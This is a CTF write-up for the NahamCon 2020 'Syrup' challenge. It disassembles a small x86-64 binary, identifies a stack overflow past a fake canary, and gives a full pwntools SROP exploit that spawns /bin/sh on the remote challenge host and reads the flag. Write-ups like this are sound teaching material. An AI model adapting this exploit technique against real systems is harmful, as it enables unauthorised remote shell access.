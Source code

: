 # NahamCon CTF 2020

## Syrup

> 100
>
> Can you pwn me? 
>
> Connect here:</br>
> `nc jh2i.com 50036`</br>
>
> [`syrup`](syrup)

Tags: _pwn_ _x86-64_ _srop_ _bof_ _syscall_ _remote-shell_


## Summary

The title _Syrup_ is a pretty strong hint that this is an SROP challenge (that completely escaped me).


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

No mitigations in place.  However, with no libc and a small statically linked assembly binary, there's not a lot to work with ROP-wise.

    
### <strike>Decompile</strike> Disassemble with Ghidra 

There are four functions of interest:

```assembly
                     entry
00401082 55              PUSH       RBP
00401083 48 89 e5        MOV        RBP,RSP
00401086 b8 01 00        MOV        EAX,0x1
         00 00
0040108b bf 01 00        MOV        EDI,0x1
         00 00
00401090 48 be 00        MOV        RSI=>msg,msg = "Can you pwn me?\n"
         20 40 00
         00 00 00 00
0040109a ba 11 00        MOV        EDX,0x11
         00 00
0040109f 0f 05           SYSCALL
004010a1 e8 9c ff        CALL       fn1
         ff ff
004010a6 e9 68 ff        JMP        nope
         ff ff
```

`entry` just prints `Can you pwn me?` using the `write` system call, then calls `fn1` before jumping to `nope`.

```assembly
                     nope
00401013 b8 01 00        MOV        EAX,0x1
         00 00
00401018 bf 01 00        MOV        EDI,0x1
         00 00
0040101d 48 be 11        MOV        RSI,fail = "Nope.\n"
         20 40 00
         00 00 00 00
00401027 ba 07 00        MOV        EDX,0x7
         00 00
0040102c 0f 05           SYSCALL
0040102e b8 3c 00        MOV        EAX,0x3c
         00 00
00401033 bf 00 00        MOV        EDI,0x0
         00 00
00401038 0f 05           SYSCALL
0040103a 2f              ??         2Fh    /
0040103b 62              ??         62h    b
0040103c 69              ??         69h    i
0040103d 6e              ??         6Eh    n
0040103e 2f              ??         2Fh    /
0040103f 73              ??         73h    s
00401040 68              ??         68h    h
00401041 00              ??         00h
```

`nope` just emits `Nope` and then exits using the `exit` syscall.

However, there's the string `/bin/sh\x00`.  Probably something we'll need.

```assembly
                     fn1
00401042 55              PUSH       RBP
00401043 48 89 e5        MOV        RBP,RSP
00401046 b8 ad de        MOV        EAX,0xdead
         00 00
0040104b 48 35 ef        XOR        RAX,0xbeef
         be 00 00
00401051 50              PUSH       RAX
00401052 48 83 ed 08     SUB        RBP,0x8
00401056 48 81 ed        SUB        RBP,0x400
         00 04 00 00
0040105d b8 00 00        MOV        EAX,0x0
         00 00
00401062 bf 00 00        MOV        EDI,0x0
         00 00
00401067 48 89 ee        MOV        RSI,RBP
0040106a ba 00 08        MOV        EDX,0x800
         00 00
0040106f 0f 05           SYSCALL
00401071 58              POP        RAX
00401072 48 35 ef        XOR        RAX,0xbeef
         be 00 00
00401078 48 3d ad        CMP        RAX,0xdead
         de 00 00
0040107e 75 93           JNZ        nope
00401080 5d              POP        RBP
00401081 c3              RET
```

`fn1` puts `0xdead ^ 0xbeef` on the stack, allocates `0x400` bytes, then calls `read` to _read_ in up to `0x800` bytes from `stdin`.  This is the vulnerability.  However there's the "canary" check, and if that fails, then `nope`.  Otherwise it returns to `entry` and jumps to `nope`.

Clearly we have to take control of RIP with this buffer overflow.

```assembly
                     fn2
00401000 55              PUSH       RBP
00401001 48 89 e5        MOV        RBP,RSP
00401004 58              POP        RAX
00401005 48 bf 11        MOV        RDI,fail = "Nope.\n"
         20 40 00
         00 00 00 00
0040100f 0f 05           SYSCALL
00401011 5d              POP        RBP
00401012 c3              RET
```

`fn2` has no purpose other than to help us out.  It'll pop RAX and `syscall`.  With ROP, setting RAX and _returning_ to `POP RAX` to then get any syscall we want is easy enough, however, the challenge is setting all the other registers.

[Sigreturn Oriented Programming (SROP)](https://docs.pwntools.com/en/stable/rop/srop.html) solves that problem.

> _**sigreturn**() exists only to allow the implementation of signal handlers.  It should **never** be called directly. -- man 2 sigreturn_

lol


## Exploit

```python
#!/usr/bin/python3

from pwn import *

binary = ELF('./syrup')
context.update(arch='amd64',os='linux')

frame = SigreturnFrame()
frame.rax = constants.SYS_execve
frame.rdi = next(binary.search(b'/bin/sh'))
frame.rsi = 0
frame.rdx = 0
frame.rip = next(binary.search(asm('syscall')))

payload  = 0x400 * b'A'
payload += p64(0xdead ^ 0xbeef)
```

Setup the stack frame to call `execve("/bin/sh",null,null)`.  The `0x400` + the "canary" payload gets to the saved base pointer.

There are at least two options (_clever_ and _not to clever_) to call `sigreturn`.

Clever:

```python
payload += p64(constants.SYS_rt_sigreturn)
payload += p64(binary.symbols['fn2'])
```

The clever way puts the `rt_sigreturn` syscall number in RBP.  Then overwrites the return address with the address of `fn2`.  `fn1` before `ret` will pop RBP, then `fn2` will push RDB, then pop RAX before the `syscall`.

> They really thought of everything. 

Not so clever:

```python
payload += p64(0x0)
payload += p64(0x00401004) # pop rax
payload += p64(constants.SYS_rt_sigreturn)
```

The other option is to just write anything to the saved base pointer in the stack, and then have the return address be the address of the `POP RAX` from `fn2`, then the syscall number.

In either case the generated stack frame needs to follow the overwritten return address:

```python
payload += bytes(frame)
```

Finally:

```python
#p = process(binary.path)
p = remote('jh2i.com', 50036)

p.recvuntil('Can you pwn me?')
p.sendline(payload)
p.interactive()
```

Just send it and get a shell.

Output:

```bash
# ./exploit.py
[*] '/pwd/datajerk/nahamconctf2020/syrup/syrup'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to jh2i.com on port 50036: Done
[*] Switching to interactive mode

\x00$ id
uid=1000(challenge) gid=1000(challenge) groups=1000(challenge)
$ ls
flag.txt
syrup
$ cat flag.txt
flag{Sr0ppin_t0_v1ct0Ry}
```

